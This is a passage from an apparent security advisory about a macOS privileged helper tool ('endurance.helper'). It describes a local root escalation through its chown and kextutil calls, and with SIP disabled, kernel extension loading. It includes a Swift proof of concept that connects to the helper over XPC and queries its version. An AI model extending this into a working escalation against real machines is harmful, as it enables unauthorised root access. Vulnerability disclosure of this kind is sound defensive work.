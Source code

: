 This method spawns `/usr/sbin/chown` and `/usr/bin/kextutil` with attacker-controlled arguments under root privileges.


## Proof-of-Concept

>With SIP enabled (default), the vulnerability allows local privilege escalation to root. If SIP is explicitly disabled (`csrutil disable`), the `loadModuleWithPath` method can be abused to load arbitrary kernel extensions, leading to kernel code execution.

A minimal Swift PoC that connects to the helper and calls `getVersionWithReply:`:

```swift
import Foundation

@objc protocol HelperToolProtocol {
    @objc(getVersionWithReply:)
    func getVersionWithReply(_ reply: @escaping (String) -> Void)
}

let serviceName = "com.MagnetismStudios.endurance.helper"

let connection = NSXPCConnection(machServiceName: serviceName, options: .privileged)

connection.remoteObjectInterface = NSXPCInterface(with: HelperToolProtocol.self)

connection.invalidationHandler = {
    fputs("[!] XPC invalidated\n", stderr)
    CFRunLoopStop(CFRunLoopGetMain())
}
connection.interruptionHandler = {
    fputs("[!] XPC interrupted\n", stderr)
}

connection.resume()

guard let proxy = connection.remoteObjectProxyWithErrorHandler({ error in
    fputs("[!] XPC error: \(error)\n", stderr)
    CFRunLoopStop(CFRunLoopGetMain())
}) as? HelperToolProtocol else {
    fputs("[!] Could not obtain proxy\n", stderr)
    exit(1)
}

print("[*] Connected; calling getVersion…")

let timer = DispatchSource.makeTimerSource()
timer.schedule(deadline: .now() + 5)
timer.setEventHandler {
    fputs("[!] Timeout after 5s without a reply\n", stderr)
    CFRunLoopStop(CFRunLoopGetMain())
}
timer.resume()

proxy.getVersionWithReply { version in
    print("[+] Helper version = \(version)")
    timer.cancel()
    CFRunLoopStop(CFRunLoopGetMain())
}

CFRunLoopRun()
connection.invalidate()
```
